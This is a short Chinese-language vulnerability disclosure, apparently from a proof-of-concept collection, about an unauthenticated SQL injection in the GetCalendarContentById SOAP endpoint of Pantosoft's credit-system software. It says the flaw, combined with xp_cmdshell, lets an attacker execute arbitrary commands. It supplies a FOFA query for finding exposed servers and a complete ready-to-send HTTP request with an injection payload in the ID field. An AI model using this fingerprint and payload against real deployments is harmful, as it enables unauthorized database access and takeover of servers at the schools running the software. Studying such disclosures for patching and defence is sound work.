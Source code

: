 ## 学分制系统GetCalendarContentById存在SQL注入漏洞

上海鹏达计算机系统开发有限公司，成立于1996年，上海睿泰企业管理集团成员，位于上海市，是一家以从事软件和信息技术服务业为主的企业。上海鹏达计算机系统开发有限公司学分制系统GetCalendarContentById存在SQL注入漏洞，未经身份验证的远程攻击者可利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。

## fofa

```
body="www.pantosoft.com" && body="Pantosoft Corporation" || icon_hash="-1632820573"
```

## poc

```JAVA
POST /WebService_PantoSchool.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: ASP.NET_SessionId=e5l5acb3exqi5bmtezazrjsg
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetCalendarContentById
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 314

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetCalendarContentById>
         <!--type: string-->
         <tem:ID>-7793' OR 7994 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(120)+CHAR(113)+CHAR(113)+(SELECT (CASE WHEN (7994=7994) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(106)+CHAR(113))) AND 'qciT'='qciT</tem:ID>
      </tem:GetCalendarContentById>
   </soapenv:Body>
</soapenv:Envelope>
```

![image-20240621185739651](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211857723.png)